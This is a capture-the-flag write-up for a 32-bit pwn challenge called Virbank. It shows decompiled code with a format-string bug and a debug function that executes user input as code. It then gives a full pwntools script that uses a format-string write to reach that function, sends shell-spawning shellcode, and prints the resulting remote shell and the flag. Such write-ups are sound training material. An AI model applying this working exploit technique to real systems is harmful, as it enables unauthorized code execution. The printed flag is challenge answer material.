

# Elite showdown : Virbank

## Description

Caitlin hid her secret key on her remote server located at "0.cloud.chals.io" on port 20555.

Her server is running the "virbank_connection" executable.

Good luck!

## Solution

```
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

There is an attached binary. Opening it in a decompiler 

```c
undefined4 main(void)

{
  char local_88 [124];
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setvbuf(stdout,(char *)0x0,2,0);
  puts("What remote transport station do you want to connect to? ");
  gets(local_88);
  printf("Connecting to: ");
  printf(local_88);
  if (debug == 0x1e) {
    debug_command();
  }
  puts("\nDone, exiting...");
  return 0;
}
```

we can see a gets and printf exploit, so any sanity check would be ret2libc, but sadly there is a catch 



`LEA EBP, [ECX - 0x4]` basically checks the stack pointer in the stack, but we don't have a leak, so a buffer overflow can't work it would crash. So we need something else, we do have something else 

```
  if (debug == 0x1e) {
    debug_command();
  }
```

There is a global variable check to a command. Let's see what is this function.

```c
void debug_command(void)

{
  undefined local_42 [50];
  code *local_10;
  
  puts("Running Debug Mode, Enter Debug Command: ");
  gets(local_42);
  puts("Executing...");
  local_10 = (code *)local_42;
  (*local_10)();
  return;
}
```

This is shellcode execution. With this we can get shell directly. But to execute it we need to make `debug` the value of `0x1e`, but there is a printf exploit in which we can write on a specific address as we have our printf exploit in main. Thus we can access debug_command and give it shellcode to create a shell. 

solve script

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./virbank_checker")

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'i386'

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("0.cloud.chals.io", 20555)

    return r

def fuzz(payload):
    r = conn()
    r.sendline(payload)
    r.recvuntil(b'Connecting to: ')
    output = r.recvline()
    r.close()
    return output


def main():
    r = conn()

    # gdb.attach(r, '''
    #            gef config context.nb_lines_stack 60
    #            b *main+94
    #            b *main+0x8d
    #            c
    #            ''')
    
    # f = FmtStr(execute_fmt=fuzz)
    # offset = 6
    
    payload = fmtstr_payload(offset=6, writes={exe.symbols['debug']: 0x1E})
    
    
    r.sendline(payload)
    
    r.recvuntil(b'Enter Debug Command: ')
    
    r.sendline(asm(shellcraft.i386.linux.sh()))

    r.interactive()


if __name__ == "__main__":
    main()
```
```
[+] Opening connection to 0.cloud.chals.io on port 20555: Done
[*] Switching to interactive mode

Executing...
$ ls
caitlin_flag.txt
virbank_checker
$ cat caitlin_flag.txt
Congratulations! You have completed Caitlin's challenge.

Caitlin's flag: flag{p$yCh1clY_benDinG}
```


